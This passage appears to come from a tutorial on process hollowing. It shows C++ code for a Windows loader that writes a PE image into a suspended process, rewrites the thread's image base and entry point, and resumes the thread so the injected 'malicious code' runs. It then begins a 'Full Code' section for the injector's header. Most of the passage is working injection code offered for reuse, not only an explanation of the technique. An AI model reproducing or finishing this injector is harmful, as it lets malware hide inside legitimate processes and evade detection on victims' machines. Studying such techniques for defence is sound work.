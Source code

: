 ```cpp
					if (!WriteProcessMemory(procInfo.hProcess, (PVOID)((DWORD64)baseAddress + fieldAddress), &entryAddress, sizeof(PVOID), 0)) {
						printf("Error Writing Entry.\n");
					}
#endif
				}
			}
		}
	}
```
This code sets the new entry point of the injected PE file in the thread context of the suspended process. The entry point is where the CPU will start executing the malicious code. `SetThreadContext` sets the modified context, and ResumeThread resumes the thread, allowing the injected code to execute.
```cpp
#ifdef _X86_
	// Write The New Image Base Address
	WriteProcessMemory(procInfo.hProcess, (PVOID)(threadContext->Ebx + 8), &ntHeaders->OptionalHeader.ImageBase, sizeof(PVOID), NULL);

	// Write The New Entry Point
	DWORD entryPoint = (DWORD)((LPBYTE)allocatedMemory + ntHeaders->OptionalHeader.AddressOfEntryPoint);
	threadContext->Eax = entryPoint;
#endif
#ifdef _WIN64
	// Write The New Image Base Address
	WriteProcessMemory(procInfo.hProcess, (PVOID)(threadContext->Rdx + (sizeof(SIZE_T) * 2)), &ntHeaders->OptionalHeader.ImageBase, sizeof(PVOID), NULL);

	// Write The New Entry Point
	DWORD64 entryPoint = (DWORD64)((LPBYTE)allocatedMemory + ntHeaders->OptionalHeader.AddressOfEntryPoint);
	threadContext->Rcx = entryPoint;
#endif

	printf("\n[+] Setting the Thread Context.\n");
	if (!SetThreadContext(procInfo.hThread, threadContext)) {
		printf("Error setting context\n");
		return 0;
	}

	printf("[+] Resuming Thread.\n");
	if (!ResumeThread(procInfo.hThread)) {
		printf("[-]Error resuming thread\n");
		return 0;
	}
```
## Full Code
### Loader/Injector Code
#### Header.h
```cpp
#pragma once
#include <Windows.h>

typedef NTSTATUS(WINAPI* _NtUnmapViewOfSectionFunc)(HANDLE ProcessHandle, PVOID BaseAddress);

typedef struct RELOCATION_BLOCK {
	DWORD PageAddress;
	DWORD BlockSize;
} RELOCATION_BLOCK, * PRELOCATION_BLOCK;
```